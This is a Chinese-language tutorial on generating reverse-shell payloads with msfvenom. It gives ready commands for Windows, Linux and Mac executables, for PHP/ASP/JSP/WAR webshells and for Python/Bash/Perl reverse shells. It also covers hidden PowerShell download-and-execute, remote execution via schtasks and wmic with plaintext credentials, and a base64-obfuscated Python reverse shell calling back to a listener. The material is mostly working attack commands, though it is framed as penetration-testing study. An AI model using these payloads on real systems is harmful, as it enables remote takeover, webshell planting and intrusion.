


学习msfvenom生成反弹payload总结
前言
我们知道目前来说流行的shell主要有两种，一种是正向shell(bind_shell)一种是反向shell(reverse_shell)正向shell:攻击者连接被攻击者机器，可用于攻击者处于内网，被攻击者处于公网的情况。(攻击者->被攻击者)
反向shell:被攻击者主动连接攻击者，可用于攻击者处于外网，被攻击者处于内网的情况。(攻击者<-被攻击者)
nc可以实现一个很简单的正向与反向shell连接的示例：
正向

反向

对于实际的渗透测试过程来说，我们常常使用的往往是反弹shell的方式来突破边界防火墙的限制。
下面列举了一些使用反向shell的情况：
- 目标机器在一个不同（相对攻击者而言）的私有网络
- 目标机器的防火墙阻挡了所有入口连接（这种情况正向 Shell 是会被防火墙阻挡的）.
- 由于一些原因，你的 Payload 不能绑定在应该绑定的端口的时候
- 你还不能确定应该选择反向 Shell 还是正向 Shell 的时候
msfvenom
msfvenom是msfpayload,msfencode的结合体，可利用msfvenom生成木马程序,并在目标机上执行,在本地监听上线。Msfvenom 在 2015 年 6 月 8 日已经替代了 msfpayload 与 msfenocde 命令，它是这两个命令的结合体。为了开始使用 msfvenom，可以首先浏览一下它所支持的命令参数：

1 | Options: |
我们可以通过命令列出可用的payloads、encoders、nops。
1 | msfvenom --list payloads |
下面我们使用msf生成一些可用的反弹shell的paylaod。
生成二进制文件
关于二进制文件，主要介绍适用于Windows、linux、mac操作系统的payload生成与利用。
Windows
1 | msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe |
Linux
1 | msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf |
Mac
1 | msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address>LPORT=<Your Port to Connect On> -f macho > shell.macho |
如何利用
针对这个部分就以Windows为例，使用上面的命令生成一个exe的payload，命令如下：
攻击机:kali 192.168.153.176
靶机: win7 192.168.153.160
1 | msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.153.176 LPORT=5555 -f exe -o payload.exe |

复制shell.exe到Windows机器，然后kali下开启msf使用如下命令监听4444端口：
1 | msfconsole //启动msf |
执行完之后在Windows下执行payload.exe，然后结果如图：

在这里既然使用到了在Windows下执行应用程序，我们就大概盘点一下在Windows执行应用程序的几种方式：
- 双击运行
- cmd下运行exe
- 利用Powershell远程下载执行
1 | powershell.exe -ExecutionPolicy bypass -noprofile -windowstyle hidden (new-object system.net.webclient).downloadfile('http://127.0.0.1:8089','shell.exe'); |
- 利用at或schtasks设置计划任务执行
1 | net use \\192.168.17.138\c$ "admin123" /user:pt007 |
- 利用wmic远程命令执行
1 | wmic /node:192.168.1.158 /user:pt007 /password:admin123 process call create "cmd.exe /c ipconfig>d:\result.txt" |
生成webshell脚本
在做web渗透的时候，经常会用到webshell，我们经常用的一句话用菜刀连接，这里介绍下如何使用msfvenom生成webshell。
PHP
1 | msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php |
ASP
1 | msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp |
JSP
1 | msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp |
WAR
1 | msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war |
如何利用
下面以php为例做一下测试，使用以下命令生成一个webshell：
1 | msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.88.128 LPORT=4444 -f raw > shell.php |

在kali上使用msf执行下面的命令，监听端口4444：
1 | msfconsole |
将shell.php放在web目录下，使用浏览器访问，或者使用以下命令执行：
1 | php shell.php |

脚本shell
关于使用脚本反弹shell的方式，主要以python、bash、perl为例。
这种反弹方式也叫做git解释性脚本语言反弹shell
Python
1 | msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py |
Bash
1 | msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh |
Perl
1 | msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl |
如何使用
下面就以Python为例做一下测试，使用以下命令生成一个脚本：
1 | msfvenom -p cmd/unix/reverse_python LHOST=192.168.153.176 LPORT=4444 -f raw > shell.py |
在kali上使用msf执行下面的命令，监听端口4444：
1 | msfconsole |
然后复制shell.py中的内容在linux命令行下执行，如下：
1 | python -c "exec('aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zICAgICAgOyAgICBob3N0PSIxOTIuMTY4Ljg4LjEyOCIgICAgICA7ICAgIHBvcnQ9NDQ0NCAgICAgIDsgICAgcz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSkgICAgICA7ICAgIHMuY29ubmVjdCgoaG9zdCxwb3J0KSkgICAgICA7ICAgIG9zLmR1cDIocy5maWxlbm8oKSwwKSAgICAgIDsgICAgb3MuZHVwMihzLmZpbGVubygpLDEpICAgICAgOyAgICBvcy5kdXAyKHMuZmlsZW5vKCksMikgICAgICA7ICAgIHA9c3VicHJvY2Vzcy5jYWxsKCIvYmluL2Jhc2giKQ=='.decode('base64'))" |

结果如图：